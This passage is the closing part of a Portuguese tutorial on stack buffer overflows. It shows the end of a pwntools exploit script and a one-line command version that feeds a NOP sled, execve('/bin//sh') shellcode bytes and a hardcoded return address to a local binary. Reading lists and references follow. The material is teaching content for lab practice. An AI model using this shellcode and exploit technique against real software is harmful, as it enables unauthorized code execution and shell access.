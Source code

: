     p = process(['./a.out', b'\x90' * n1nops + shellcode + b'\x90' * n2nops + address * 4])

    p.interactive()

    # Se quiser rodar direto da linha de comando
    # ./a.out $(python -c 'print (b"\x90" * 377 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + b"\x90" * 100 + b"\x74\xcd\xff\xff" * 4)')
    ```

# Pra onde você deve ir agora?

- Shellcode
- HeapOverflow
- Format String

---

# Referências:

- Buffer Overflow Attacks - ComputerPhile: [https://www.youtube.com/watch?v=1S0aBV-Waeo](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- Startup state of a Linux/i386 ELF binary: [http://asm.sourceforge.net/articles/startup.html](http://asm.sourceforge.net/articles/startup.html)
- linux/fs/binfmt_elf.c (Arquivo com funcões de inicializacao do arquivo ELF do Linux): [https://elixir.bootlin.com/linux/latest/source/fs/binfmt_elf.c](https://elixir.bootlin.com/linux/latest/source/fs/binfmt_elf.c)
- How Effective is ASLR on Linux Systems?: [https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/](https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/)